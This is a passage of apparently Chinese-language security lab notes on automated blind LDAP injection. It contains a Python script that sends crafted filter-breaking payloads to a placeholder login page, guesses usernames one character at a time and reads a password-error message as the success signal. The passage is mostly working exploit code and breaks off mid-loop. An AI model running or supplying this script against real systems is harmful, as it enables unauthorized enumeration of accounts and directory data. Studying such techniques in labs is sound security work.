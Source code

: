 *   **自动化盲注 (Python 示例):**
    *   脚本通过发送一系列精心构造的 POST 请求，每次猜测一个字符。
    *   它检查响应页面中是否存在特定文本（如 "Something is wrong..." 或 "Welcome...") 来判断猜测是否正确。
    *   如果猜测正确，将该字符添加到已知前缀 (`successful_chars`)，并继续猜测下一个字符。
    *   直到无法找到新的正确字符为止。

```python
import requests
from bs4 import BeautifulSoup
import string
import time
import urllib.parse

# 目标 URL
url = 'http://<TARGET_IP>/blind.php' # 替换为实际 URL

# 猜测用的字符集
# char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation # 可以根据需要调整
char_set = string.printable.strip() # 更全的字符集，去除空白符

# 初始化已知的前缀
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

print(f"Starting blind LDAP injection on {url}")
print(f"Using char set: {char_set}")

while True:
    found_char_in_iteration = False
    for char_to_guess in char_set:
        # 构造注入 payload，尝试猜测下一个字符
        # 假设目标是猜测 uid=admin 的某个属性值
        # 注意：payload 结构需要根据实际注入点和目标调整
        # 这里假设注入 username，利用 `*` 和 `(` `)` `&` `|` 构造布尔条件
        # payload = f"admin*)(attribute={successful_chars}{char_to_guess}*" # 示例：猜测 attribute
        # 为了匹配笔记中的例子，我们尝试猜测存在的用户名
        payload_username_raw = f"{successful_chars}{char_to_guess}*)(|(&" # 原始 payload
        payload_password_raw = "pwd)"

        # URL 编码 payload
        payload_username_encoded = urllib.parse.quote(payload_username_raw)
        payload_password_encoded = urllib.parse.quote(payload_password_raw)

        data = f'username={payload_username_encoded}&password={payload_password_encoded}'

        try:
            response = requests.post(url, data=data, headers=headers, timeout=10) # 设置超时
            response.raise_for_status() # 检查 HTTP 错误

            # 解析 HTML 响应
            soup = BeautifulSoup(response.content, 'html.parser')

            # *** 关键：定义成功的标志 ***
            # 根据实际应用返回的“真”条件下的特定文本或元素来判断
            # 例如，笔记中提到 "Something is wrong in your password." 表示用户存在但密码错误
            # 我们以此作为“真”的标志
            success_indicators = soup.find_all(string=lambda text: "Something is wrong in your password." in text)
            # 或者可能是 "Welcome, ..."
            # success_indicators = soup.find_all('p', style='color: green;')
```